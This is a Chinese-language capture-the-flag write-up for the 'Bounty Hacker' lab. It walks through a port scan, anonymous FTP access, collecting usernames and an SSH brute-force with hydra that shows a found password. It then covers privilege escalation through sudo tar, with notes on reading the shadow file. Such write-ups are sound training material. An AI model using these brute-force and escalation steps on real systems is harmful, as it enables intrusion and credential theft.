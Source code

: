 ```yaml
---
sidebar_position: 9
tags: [Easy, Linux, 信息泄露, 密码破解-账号, SUDO]
title: Bounty Hacker
sidebar_label: Bounty Hacker
---
```

# Bounty Hacker

## 端口扫描
```bash
root@ip-10-10-179-239:~# rustscan -a 10.10.19.40 -u 1000 -p 21,22,80  -- -sTCV
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.179.239
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgcwCtWTBLYfcPeyDkCNmq6mXb/qZExzWud7PuaWL38rUCUpDu6kvqKMLQRHX4H3vmnPE/YMkQIvmz4KUX4H/aXdw0sX5n9jrennTzkKb/zvqWNlT6zvJBWDDwjv5g9d34cMkE9fUlnn2gbczsmaK6Zo337F40ez1iwU0B39e5XOqhC37vJuqfej6c/C4o5FcYgRqktS/kdcbcm7FJ+fHH9xmUkiGIpvcJu+E4ZMtMQm4bFMTJ58bexLszN0rUn17d2K4+lHsITPVnIxdn9hSc3UomDrWWg+hWknWDcGpzXrQjCajO395PlZ0SBNDdN+B14E0m6lRY9GlyCD9hvwwB
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMCu8L8U5da2RnlmmnGLtYtOy0Km3tMKLqm4dDG+CraYh7kgzgSVNdAjCOSfh3lIq9zdwajW+1q9kbbICVb07ZQ=
|   256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICqmJn+c7Fx6s0k8SCxAJAoJB7pS/RRtWjkaeDftreFw
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 21 - FTP

![20240527111713](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527111713.png)

:::tip
- locks.txt ：推断是一个密码表
- task.txt : 推断是一个任务笔记
:::

## 80 - HTTP

![20240527111738](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527111738.png)

目录扫描但是没有任何输出， 根据网页内容我们可以获取到几个用户名
```bash
Spike
spike
Jet
jet
Ed
ed
Edward
edward
Ein
ein
Faye
faye
```

## SSH
基于 80 收取的用户表以及 ftp 中的 task.txt 的作者 lin 构成了一个user.txt
```bash title="user.txt"
Spike
spike
Jet
jet
Ed
ed
Edward
edward
Ein
ein
Faye
faye
lin
```
使用 hydra 进行暴力破解

```bash
root@ip-10-10-179-239:~# hydra -L user.txt -P locks.txt -t 6 ssh://10.10.19.40
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-08-03 03:43:06
[DATA] max 6 tasks per 1 server, overall 6 tasks, 338 login tries (l:13/p:26), ~57 tries per task
[DATA] attacking ssh://10.10.19.40:22/
[STATUS] 168.00 tries/min, 168 tries in 00:01h, 170 to do in 00:02h, 6 active
[22][ssh] host: 10.10.19.40   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-08-03 03:45:02
```

## 后渗透

### lin

![20240527111851](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527111851.png)

### lin --> root
我们发现用户可以以 root 身份运行 tar 程序, 寻找到相关 Payload [tar#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)

![20240527111930](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240527111930.png)

:::note[扩展思路]
- 打包 /root 目录
- 打包 passwd shadow 这些特殊文件进行破解密码， 或者进行修改后的覆盖操作
- 直接执行获取 sh
:::